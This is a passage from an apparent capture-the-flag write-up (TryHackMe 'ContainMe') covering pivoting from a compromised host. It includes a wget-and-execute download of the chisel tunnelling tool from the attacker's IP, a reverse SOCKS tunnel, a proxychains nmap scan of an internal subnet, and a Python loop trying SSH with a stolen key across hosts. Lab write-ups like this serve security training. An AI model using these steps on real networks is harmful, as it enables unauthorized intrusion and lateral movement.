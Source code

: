 Hmm... Let's do a **dynamic port forwarding via `chisel`**!

- Transfer the `chisel` binary to the target machine:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

root@host1:/usr/share/man/zh_TW# wget http://10.8.27.249/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel;cd /tmp
```

- Establish dynamic port forwarding:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse

root@host1:/tmp# ./chisel client 10.8.27.249:8888 R:socks
2022/10/07 08:13:15 client: Connecting to ws://10.8.27.249:8888
2022/10/07 08:13:16 client: Connected (Latency 240.613249ms)
```

Now, since we don't know how many containers are running, I'll run a very, very lite port scanning to the entire container subnet via `nmap` with `proxychains`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# proxychains nmap --top-port=5 172.16.20.0/24
[...]
Nmap scan report for 172.16.20.0
Host is up (0.00016s latency).

PORT    STATE    SERVICE
21/tcp  filtered ftp
22/tcp  filtered ssh
23/tcp  filtered telnet
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for 172.16.20.1
Host is up (0.0017s latency).

PORT    STATE    SERVICE
21/tcp  filtered ftp
22/tcp  filtered ssh
23/tcp  filtered telnet
80/tcp  filtered http
443/tcp filtered https
[...]
```

However, all of them are being filtered...

**Then I guess I'll have to write a simple python script to bruteforce the SSH port:**
```py
#!/usr/bin/env python3

import os

for host in range(1,254):
	os.system(f'proxychains ssh -i mike_id_rsa -o PasswordAuthentication=no mike@172.16.20.{host}')
```
